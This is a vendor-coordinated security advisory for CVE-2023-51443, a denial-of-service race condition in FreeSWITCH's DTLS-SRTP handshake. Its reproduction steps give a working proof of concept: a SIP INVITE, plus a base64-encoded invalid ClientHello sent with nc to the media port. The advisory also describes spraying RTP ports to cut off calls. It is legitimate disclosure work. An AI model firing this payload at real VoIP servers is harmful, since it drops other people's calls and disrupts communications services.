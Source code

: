 # FreeSWITCH susceptible to Denial of Service via DTLS Hello packets during call initiation

- Fixed versions: 1.10.11
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2023-02-freeswitch-dtls-hello-race
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-39gv-hq72-j6m6
- Other references: CVE-2023-51443
- Tested vulnerable versions: 1.10.10
- Timeline:
	- Report date: 2023-09-27
	- Triaged: 2023-09-27
	- Fix provided for testing: 2023-09-29
	- Vendor release with fix: 2023-12-22
	- Enable Security advisory: 2023-12-22

## TL;DR

When handling DTLS-SRTP for media setup, FreeSWITCH is susceptible to Denial of Service due to a race condition in the hello handshake phase of the DTLS protocol. This attack can be done continuously, thus denying new DTLS-SRTP encrypted calls during the attack.

## Description

Our research has shown that key establishment for Secure Real-time Transport Protocol (SRTP) using Datagram Transport Layer Security Extension (DTLS)[^1] is susceptible to a Denial of Service attack due to a race condition. If an attacker manages to send a ClientHello DTLS message with an invalid CipherSuite (such as `TLS_NULL_WITH_NULL_NULL`) to the port on the FreeSWITCH server that is expecting packets from the caller, a DTLS error is generated. This results in the media session being torn down, which is followed by teardown at signaling (SIP) level too.

This behavior was tested against FreeSWITCH version 1.10.10, which was found to be vulnerable to this issue.

The following sequence diagram shows the normal flow (i.e. no attack) involving SIP and DTLS messages between a UAC (the Caller) and an FreeSWITCH server capable of handling WebRTC calls.

Diagram showing a call setup against FreeSWITCH that uses SIP and DTLS:
![Diagram showing a call setup against FreeSWITCH that uses SIP and DTLS](https://user-images.githubusercontent.com/4557407/271063734-85425e09-6945-49b1-ba73-751b6d592ea4.png)

In a controlled experiment, it was observed that when the Attacker sent a DTLS ClientHello to FreeSWITCH's media port from a different IP and port, FreeSWITCH responded by sending a DTLS Alert to the Caller. Additionally, FreeSWITCH terminated the SIP call by sending a BYE message to the Caller.

![Diagram showing a call setup against FreeSWITCH that fails due to an attacker controlled DTLS ClientHello](https://user-images.githubusercontent.com/4557407/271064011-032f9a0e-15af-4645-b008-1fe8b706d75e.png)

During a real attack, the attacker would spray a vulnerable FreeSWITCH server with DTLS ClientHello messages. The attacker would typically target the range of UDP ports allocated for RTP. When the ClientHello message from the Attacker wins the race against an expected ClientHello from the Caller, the call terminates, resulting in Denial of Service.


## Impact

Abuse of this vulnerability may lead to a massive Denial of Service on vulnerable FreeSWITCH servers for calls that rely on DTLS-SRTP.

## How to reproduce the issue

1. Prepare a FreeSWITCH server with an extension configured to handle WebRTC
1. Send an INVITE message to the target server with WebRTC SDP:

    ```default
	INVITE sip:1000@192.168.1.202 SIP/2.0
	Via: SIP/2.0/WSS 192.168.1.202:36742;rport=36742;branch=z9hG4bK-jQcnXJadB2VGfGmQ
	Max-Forwards: 70
	From: <sip:1000@192.168.1.202>;tag=L9kc5NfpYG1u67cT
	To: <sip:1000@192.168.1.202>
	Contact: <sip:1000@192.168.1.202>
	Call-ID: DzGnBLt0z9SK3MC0
	CSeq: 5 INVITE
	Content-Type: application/sdp
	Content-Length: 385

	v=0
	o=- 1695296331 1695296331 IN IP4 192.168.1.202
	s=-
	t=0 0
	c=IN IP4 192.168.1.202
	m=audio 45825 UDP/TLS/RTP/SAVPF 0 8 101
	a=setup:active
	a=fingerprint:sha-256 49:05:98:B2:15:43:1C:9C:4F:29:07:60:F8:63:77:16:80:F9:44:C0:97:8E:E5:48:D6:71:B4:03:10:85:D6:E3
	a=rtpmap:0 PCMU/8000/1
	a=rtpmap:8 PCMA/8000/1
	a=rtpmap:101 telephone-event/8000
	a=rtcp-mux
	a=rtcprsize
	a=sendrecv
	```
1. Note FreeSWITCH's media port and IP values, which will be used as the `<freeswitch-ip>` and `<media-port>` parameters by the Attacker
1. Send a DTLS ClientHello message from a (attacker-controlled) host, which is different from the Caller but has network access to the FreeSWITCH server

    ```bash
	CLIENT_HELLO="Fv7/AAAAAAAAAAAAfAEAAHAAAAAAAAAAcP79AAA" 
	CLIENT_HELLO="${CLIENT_HELLO}AAG4HCVaUNVbYVmxuqdn2WyCgtTijhZ+WheP/+H"
	CLIENT_HELLO="${CLIENT_HELLO}4AAAACAAABAABEABcAAP8BAAEAAAoACAAGAB0AF"
	CLIENT_HELLO="${CLIENT_HELLO}wAYAAsAAgEAACMAAAANABQAEgQDCAQEAQUDCAUF"
	CLIENT_HELLO="${CLIENT_HELLO}AQgGBgECAQAOAAkABgABAAgABwA="
	echo -n "${CLIENT_HELLO}" | base64 --decode | nc -u <freeswitch-ip> <media-port>
	```
1. Observe that the Caller received a DTLS Alert message and a SIP BYE message on its signaling channel

Note that the above steps are used to reliably reproduce the vulnerability. In case of a real attack, the attacker simply has to spray the FreeSWITCH server with DTLS messages.

## Solution and recommendations

To address this vulnerability, upgrade FreeSWITCH to the latest version which includes the security fix. The solution implemented is to drop all packets from addresses that have not been validated by an ICE check.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

[^1]: Datagram Transport Layer Security (DTLS) Extension to Establish Keys for the Secure Real-time Transport Protocol (SRTP) https://datatracker.ietf.org/doc/html/rfc5764